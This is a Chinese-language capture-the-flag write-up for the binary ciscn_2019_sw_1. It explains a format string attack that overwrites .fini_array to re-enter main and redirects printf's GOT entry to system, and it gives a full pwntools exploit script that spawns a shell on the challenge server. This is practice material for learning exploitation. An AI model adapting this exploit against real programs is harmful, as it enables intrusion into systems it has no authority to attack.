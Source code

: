 checksec

![image-20210418215417641](https://static.hack1s.fun/images/2021/04/18/image-20210418215417641.png)

main函数

![image-20210418215502042](https://static.hack1s.fun/images/2021/04/18/image-20210418215502042.png)

直接输入一个格式化字符串，之后printf

程序中有一个`_sys`函数

![image-20210418231215218](https://static.hack1s.fun/images/2021/04/18/image-20210418231215218.png)

但是这个函数的参数command在rodata段，是一个长度为4的空串

这个程序只能执行一次格式化字符串漏洞，之后就会退出

我们如果要使用格式化字符串漏洞劫持控制流的话需要能够触发两次格式化字符串

这就涉及到linux下加载程序时的机制了

![](https://p3.ssl.qhimg.com/t01194430d55d54da9d.png)

加载main函数之前还会运行`.init_array`中的每一个函数指针，在程序退出时运行`.fini_array`中的函数指针

所以一个常见的劫持控制流的方法就是修改`fini_array`中的值

在GDB中可以用`elfheader`看到具体的地址

![image-20210419002504102](https://static.hack1s.fun/images/2021/04/18/image-20210419002504102.png)

之后就是使用格式化字符串往里面写值

每次写两个字节，核心的payload是

```python
payload = p32(fini_array) + p32(fini_array+2) + p32(printf_got) + p32(printf_got+2)
payload += bytes("%" + str(0x8534-0x10) 		+ "c%4$hn" ,encoding='ascii')#0x8534
payload += bytes("%" + str(0x10804-0x8534)  + "c%5$hn" ,encoding='ascii')#0x804
payload += bytes("%" + str(0x183d0-0x10804) + "c%6$hn" ,encoding='ascii')#0x83d0
payload += bytes("%" + str(0x20804-0x183d0) + "c%7$hn" ,encoding='ascii')#0x804
```

这样在`fini_array`处写入了`0x8048534`, 在`printf_got`写入了`0x80483d0`

最终exp

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import *

elf = context.binary = ELF('./ciscn_2019_sw_1')
fini_array = 0x804979c
printf_got = elf.got['printf']
main_addr = 0x8048534
system_addr = 0x80483d0

gs = '''
b main
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('node3.buuoj.cn',27541)
    else:
        return process(elf.path)

io = start()
io.recvuntil("name?\n")

payload = p32(fini_array) + p32(fini_array+2) + p32(printf_got) + p32(printf_got+2)
payload += bytes("%" + str(0x8534-0x10) + "c%4$hn"     ,encoding='ascii')#0x8534
payload += bytes("%" + str(0x10804-0x8534) + "c%5$hn"  ,encoding='ascii')#0x804
payload += bytes("%" + str(0x183d0-0x10804) + "c%6$hn" ,encoding='ascii')#0x83d0
payload += bytes("%" + str(0x20804-0x183d0) + "c%7$hn" ,encoding='ascii')#0x804

io.sendline(payload)
io.recvuntil("Hello ")

io.sendline("/bin/sh\x00")

io.interactive()
```

试了一下用fmtstr_payload ,发现做不出来

感觉理解的还不是特别透彻

